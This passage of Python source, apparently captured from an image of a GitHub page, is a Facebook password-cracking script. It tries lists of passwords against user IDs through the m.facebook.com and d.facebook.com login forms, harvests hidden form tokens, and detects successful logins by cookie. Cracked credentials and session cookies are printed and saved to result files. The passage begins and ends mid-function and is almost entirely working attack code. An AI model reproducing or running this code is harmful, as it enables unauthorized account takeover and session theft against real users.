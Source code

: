     global loop, ua, ok, cp
    sys.stdout.write(
        "\r\x1b[1;97m[Crack] %s/%s OK:-%s - CP:-%s "%(loop, len(ids), len(ok), len(cp))
    ); sys.stdout.flush()
    try:
        for pw in pwx:
            ses = requests.Session()
            ses.headers.update({"origin": "https://m.facebook.com", "accept-language": "id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7", "accept-encoding": "gzip, deflate", "accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8", "user-agent": ua, "Host": "m.facebook.com", "referer": "https://m.facebook.com/login/?next&ref=dbl&fl&refid=8", "cache-control": "max-age=0", "upgrade-insecure-requests": "1", "content-type": "application/x-www-form-urlencoded"})
            p = ses.get("https://m.facebook.com/login/?next&ref=dbl&refid=8").text
            b = parser(p,"html.parser")
            bl = ["lsd","jazoest","m_ts","li","try_number","unrecognized_tries","login"]
            for i in b('input'):
                try:
                    if i.get('name') in bl:
                        kwargs.update({i.get('name'): i.get('value')})
                    else:continue
                except:pass
            kwargs.update({"email": uid,"pass": pw,"prefill_contact_point": "","prefill_source": "","prefill_type": "","first_prefill_source": "","first_prefill_type": "","had_cp_prefilled": "false","had_password_prefilled": "false","is_smart_lock": "false","_fb_noscript": "true"})
            gaaa = ses.post("https://m.facebook.com/login/device-based/regular/login/?refsrc=https%3A%2F%2Fm.facebook.com%2F&lwv=100&refid=8",data=kwargs)
            if "c_user" in ses.cookies.get_dict().keys():
                kuki = (";").join([ "%s=%s" % (key, value) for key, value in ses.cookies.get_dict().items() ])
                print("\r\x1b[1;92m[JAMES-OK] %s | %s %s\x1b[1;97m"%(uid, pw, kuki))
                ok.append("%s | %s"%(uid, pw))
                open("Results/Ok.txt","a").write("%s | %s\n"%(uid, pw))
                break
            elif "checkpoint" in ses.cookies.get_dict().keys():
                print("\r\x1b[1;93m[JAMES-CP] %s | %s\x1b[1;97m       "%(uid, pw))
                cp.append("%s|%s"%(uid, pw))
                open("Results/Cp.txt","a").write("%s | %s\n"%(uid, pw))
                break
            else:
                continue
        loop +=1
    except:
        pass
# Crack D.Facebook.Com
def crack(ids, uid, pwx, **kwargs):
    global loop, ua, ok, cp
    sys.stdout.write(
        "\r\x1b[1;97m[Crack] %s/%s OK:-%s - CP:-%s "%(loop, len(ids), len(ok), len(cp))
    ); sys.stdout.flush()
    try:
        for pw in pwx:
            ses = requests.Session()
            ses.headers.update({"origin": "https://d.facebook.com", "accept-language": "id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7", "accept-encoding": "gzip, deflate", "accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8", "user-agent": ua, "Host": "d.facebook.com", "referer": "https://d.facebook.com/login/?next&ref=dbl&fl&refid=8", "cache-control": "max-age=0", "upgrade-insecure-requests": "1", "content-type": "application/x-www-form-urlencoded"})
            p = ses.get("https://d.facebook.com/login/?next&ref=dbl&refid=8").text
            b = parser(p,"html.parser")
            bl = ["lsd","jazoest","m_ts","li","try_number","unrecognized_tries","login"]
            for i in b('input'):
                try:
                    if i.get('name') in bl:
